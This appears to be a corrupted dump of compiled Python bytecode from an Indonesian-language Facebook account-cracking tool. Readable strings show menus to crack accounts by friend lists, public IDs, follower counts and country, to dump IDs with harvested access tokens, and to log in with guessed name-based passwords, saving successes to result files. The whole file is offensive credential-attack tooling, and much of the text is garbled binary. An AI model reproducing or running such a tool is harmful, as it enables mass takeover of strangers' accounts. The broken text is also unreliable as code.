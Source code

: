 >[0;93m s3���[0;97m([0;91mâ€¢[0;97m) User Id[0;91m >[0;93m s&���[0;97m(1).[0;97m Crack Akun Facebooks-���[0;97m(2).[0;97m Crack Password List Manuals-���[0;97m(3).[0;97m Crack Dari Total Followerss���[0;97m(4).[0;97m Dump IDs/���[0;97m(5).[0;97m Cari ID Menggunakan Usernames$���[0;97m(6).[0;97m Lihat Hasil Cracks%���[0;91m(0[0;91m).[0;97m Keluar Akun(���R���R���RI���R����RL���R���R[���R\���R]���R^���R_���RK���R ���R���Ra���R���R���t���logo2t ���pilih_menu(���Rb���Rl���Rh���Rm���Rc���(����(����s���/sdcard/HEKEL.pyRJ���Y��sh���� c����������C���sð���t��d�ƒ�}��|��d�k�r'�d�GHt�ƒ��nÅ�|��d�k�r=�t�ƒ��n¯�|��d�k�rS�t�ƒ��n™�|��d�k�ri�t�ƒ��nƒ�|��d�k�r�t�ƒ��nm�|��d�k�r•�t�ƒ��nW�|��d�k�r«�t�ƒ��nA�|��d �k�rà�d�GHt�j�d�ƒ�t �j�d �ƒ�t�ƒ��n�d�GHt�ƒ��d��S(���Ns/���[0;97m([0;93m?[0;97m) Pilih [0;94m>[0;93m R���s%���[0;97m([0;91m![0;97m) Isi Yg BenarR ���R!���R"���R#���t���5t���6R$���s'���[0;97m([0;91m![0;97m) Succes Keluar i���s���rm -rf login.txts'���[0;97m([0;91m![0;97m) Isi Yg Benar !( ���R%���R‹���t���crack_temant���manualt���crack_followt���dumpt���cari_idt���hasil_crackR ���R���R���R���R���(���t���peler(����(����s���/sdcard/HEKEL.pyR‹���’��s.���� c�����������C���sº���t��j�d�ƒ�t�GHt�j�d�ƒ�d�GHt�j�d�ƒ�d�GHt�j�d�ƒ�d�GHt�j�d�ƒ�d�GHt�j�d�ƒ�d�GHt�j�d�ƒ�d�GHt�j�d�ƒ�d�GHt�j�d�ƒ�d�GHt�j�d�ƒ�t�ƒ��d��S( ���NR���gìQ¸…ë±?s����[0;91mâ”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€s$���[0;97m1).[0;97m Crack ID Indonesias%���[0;97m2).[0;97m Crack ID Bangladeshs#���[0;97m3).[0;97m Crack ID Pakistans ���[0;97m4).[0;97m Crack ID Indias���[0;97m5).[0;97m Crack ID Usas ���[0;91m0[0;97m).[0;91m Kembali(���R���R���RŠ���R ���R���t���pilih_teman(����(����(����s���/sdcard/HEKEL.pyRŽ���­��s(���� c����������C���s»���t��d�ƒ�}��|��d�k�r'�d�GHt�ƒ��n��|��d�k�r=�t�ƒ��nz�|��d�k�rS�t�ƒ��nd�|��d�k�ri�t�ƒ��nN�|��d�k�r�t�ƒ��n8�|��d�k�r•�t�ƒ��n"�|��d�k�r«�t�ƒ��n�d�GHt�ƒ��d��S( ���Ns/���[0;97m([0;93m?[0;97m) Pilih [0;94m>[0;93m R���s'���[1;97m([1;91m![1;97m) Isi Yg Benar !R ���R!���R"���R#���RŒ���R$���(���R%���R•���t ���crack_indot���crack_banglat���crack_pakist���crack_hindit���crack_usaRJ���(���t���uki(����(����s���/sdcard/HEKEL.pyR•���Ä��s$���� c�����������C���sé���t��j�d�ƒ�y�t�d�d�ƒ�j�ƒ��a�Wn7�t�k �r_�d�GHt��j�d�ƒ�t�j�d�ƒ�t�ƒ��n�Xt��j�d�ƒ�t�GHd�GHt�j�d�ƒ�d�GHt�j�d�ƒ�d �GHt�j�d�ƒ�d�GHt�j�d�ƒ�d�GHt�j�d�ƒ�d�GHt�j�d�ƒ�t �ƒ��d��S( ���NR���s���login.txtR2���s(���[1;97m([1;91m![1;97m) Token Invalid !s���rm -rf login.txti���s����[0;91mâ”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€gìQ¸…ë±?s*���[0;97m(1).[0;97m Crack Dari Daftar Temans*���[0;97m(2).[0;97m Crack Dari Publik/Temans"���[0;97m(3).[0;97m Crack Dari Files!���[0;91m(0[0;91m).[0;91m Kembali(���R���R���RI���R����Rb���RL���R ���R���R���RŠ���t ���pilih_indo(����(����(����s���/sdcard/HEKEL.pyR–���Ú��s.���� c����������C���s ��t��d�ƒ�}��|��d�k�r'�d�GHt�ƒ��n|��d�k�r¥�t�j�d�ƒ�t�GHd�GHt�j�d�ƒ�t�j�d�t�ƒ�}�t �j�|�j�ƒ�}�x¹|�d�D]�}�t �j�|�d �ƒ�q‡�Wn“|��d�k�rÎt�j�d�ƒ�t�GHd�GHt�j�d�ƒ�t��d�ƒ�}�t�j�d�ƒ�y>�t�j�d �|�d�t�ƒ�}�t �j�|�j�ƒ�}�d�|�d�GHWnI�t�k �rUd�GHt��d�ƒ�t�ƒ��n#�t�j�j�k �rwd�GHt�ƒ��n�Xt�j�d �|�d�t�ƒ�}�t �j�|�j�ƒ�}�x�|�d�D]�}�t �j�|�d �ƒ�q°Wnj|��d�k�sæ|��d�k�r¦t�j�d�ƒ�t�GHyb�d�GHt�j�d�ƒ�t��d�ƒ�}�t�j�d�ƒ�x0�t�|�d�ƒ�j�ƒ��D]�}�t �j�|�j�ƒ��ƒ�q<WWqÔt�k �r|d�GHt��d�ƒ�qÔt�k �r¢d�GHt��d�ƒ�t�ƒ��qÔXn.�|��d�k�s¾|��d�k�rÈt�ƒ��n�d�GHt�ƒ��d �t�t�t �ƒ�ƒ�GHt�j�d�ƒ�d!�d"�d#�g�} �x0�| �D](�}�d$�|�Gt�j�j�ƒ��t�j�d%�ƒ�qWd&�GHt�j�d�ƒ�d'�GHt�j�d�ƒ�d(�GHt�j�d�ƒ�d)�GHt�j�d�ƒ�d�GHt�j�d�ƒ�d*�„��}�t�d+�ƒ�} �| �j�|�t �ƒ�d,�GHd-�GHd.�t�t�t �ƒ�ƒ�d/�t�t�t!�ƒ�ƒ�GHd0�GHd1�d2�GHt��d�ƒ�t"�ƒ��d��S(3���Ns���[1;97m(?) Pilih [94m>[1;97m R���s'���[1;97m([1;91m![1;97m) Isi Yg Benar !R ���R���s����[0;91mâ”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€gìQ¸…ë±?s3���https://graph.facebook.com/me/friends?access_token=Rf���Rc���R!���s5���[1;97m([0;94mâ€¢[0;97m) ID Publik [0;91m:[0;97m s���https://graph.facebook.com/s���?access_token=s0���[1;97m([0;94mâ€¢[0;97m) Nama [0;91m:[0;97m Rj���s.���[1;97m([1;91m![1;97m) Id publik tidak ada !s��� [1;97m([1;91mKembali[1;97m)s*���[1;97m([1;91m![1;97m) Tidak ada koneksis���/friends?access_token=R"���t���03s<���[1;97m([1;94mâ€¢[1;97m) [1;97mNama File[1;91m :[1;97m R2���s*���[1;97m([1;91m![1;97m) File tidak ada ! s���[1;97m([1;91mKembali[1;97m) s)���[1;97m([1;91m![1;97m) File tidak ada !s ��� [1;97m([1;91mKembali[1;97m) R$���t���00s%���[1;97m([1;91m![1;97m) Isi Yg Benars4���[0;97m([0;94mâ€¢[0;97m) Total Id[1;91m :[1;97m s���. s���.. s���... s$��� ([0;94mâ€¢[0;97m) Crack Berjalan i���sž��� [0;91mâ”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€s9���[0;97m Lama Hasil Gunakan Mode Perawan 3 Detik JossðŸ‘�s4���[0;97m Untuk Menghentikan Proses, Tekan CTRL + zs7���[0;97m Sedang Proses Mohon Bersabar, Semoga Beruntungc���������S���s"��|��}�y�t��j�d�ƒ�Wn�t�k �r*�n�Xyét�j�d�|�d�t�ƒ�}�t�j�|�j�ƒ�}�|�d�d�}�t�j�d�d�i�|�d�6|�d�6d �d�6d�i�d �d�6ƒ}�|�j �}�d�|�k�sÁ�d�|�k�r d�|�d�|�d�|�d�GHt�d�d�ƒ�}�|�j�d�|�d�|�ƒ�|�j �ƒ��t�j�|�ƒ�nód�|�k�r‹d�|�d�|�d�|�d�GHt�d�d�ƒ�}�|�j�d�|�d�|�ƒ�|�j �ƒ��t�j�|�ƒ�nˆ|�d�d�}�t�j�d�d�i�|�d�6|�d�6d �d�6d�i�d�d�6ƒ}�|�j �}�d�|�k�sñd�|�k�rPd�|�d�|�d�|�d�GHt�d�d�ƒ�}�|�j�d�|�d�|�ƒ�|�j �ƒ��t�j�|�ƒ�nÃd�|�k�r»d�|�d�|�d�|�d�GHt�d�d�ƒ�}�|�j�d�|�d�|�ƒ�|�j �ƒ��t�j�|�ƒ�nX|�d�d�} �t�j�d�d�i�|�d�6| �d�6d �d�6d�i�d �d�6ƒ}�|�j �}�d�|�k�s!d�|�k�r€d�|�d�| �d�|�d�GHt�d�d�ƒ�}�|�j�d�|�d�| �ƒ�|�j �ƒ��t�j�|�ƒ�n“d�|�k�rëd�|�d�| �d�|�d�GHt�d�d�ƒ�}�|�j�d�|�d�| �ƒ�|�j �ƒ��t�j�|�ƒ�n(d!�}�t�j�d�d�i�|�d�6|�d�6d �d�6d�i�d"�d�6ƒ}�|�j �}�d�|�k�sId�|�k�r¨d�|�d�|�d�|�d�GHt�d�d�ƒ�}�|�j�d�|�d�|�ƒ�|�j �ƒ��t�j�|�ƒ�nk�d�|�k�rd�|�d�|�d�|�d�GHt�d�d�ƒ�}�|�j�d�|�d�|�ƒ�|�j